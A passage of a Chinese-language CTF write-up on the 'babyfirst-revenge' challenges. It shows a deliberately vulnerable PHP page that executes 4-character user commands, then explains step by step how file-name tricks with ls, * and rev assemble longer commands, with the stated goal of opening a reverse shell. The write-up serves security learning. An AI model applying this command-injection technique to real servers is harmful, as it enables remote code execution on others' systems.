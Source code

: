 首先我们将命令按照相对分割。
```
>ls\\
>\ \\
>-t\\
>\>g
```

由于我们在这一步没办法通过写入时间来控制顺序，所以我们必须通过合理的分割方式和预写入来控制写入文件的内容。

成功写入`ls -t>g`之后,我们只需要按顺序来写入反弹shell的命令就可以了。


# babyfirst-revenge v2 #

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);

```
这题是上一题的进化版，把5位限制改成了4位，这里出现的最大的问题就是我们没办法解决`ls -t>g`的问题。下面的办法也主要是为了解决这个问题。

如果我们简单的分割字符，我们没办法解决ls的顺序问题。

这里就到了八仙过海各显神通的时候了，orange官方放出的解法是通过逆序来解决。

这里我们需要构造一条`ls -t>g`，但是我们可以把命令进一步拓展，比如`ls -th>g`，这样一来，假设我们逆序分割。
```
dir
sl
g\>
ht-
```

这样以来我们可以确保命令的顺序，然后用`*`来把语句链接起来
```
root@iZ285ei82c1Z:~/test# ls
dir  g>  ht-  sl
root@iZ285ei82c1Z:~/test# *
g>  ht-  sl
```

然后逆序在输入文件
```
root@iZ285ei82c1Z:~/test# ls
dir  g>  ht-  sl
root@iZ285ei82c1Z:~/test# *>v
root@iZ285ei82c1Z:~/test# >rev
root@iZ285ei82c1Z:~/test# *v>x
root@iZ285ei82c1Z:~/test# cat x
ls  -th  >g
```


  [1]: http://static.zybuluo.com/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: http://static.zybuluo.com/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png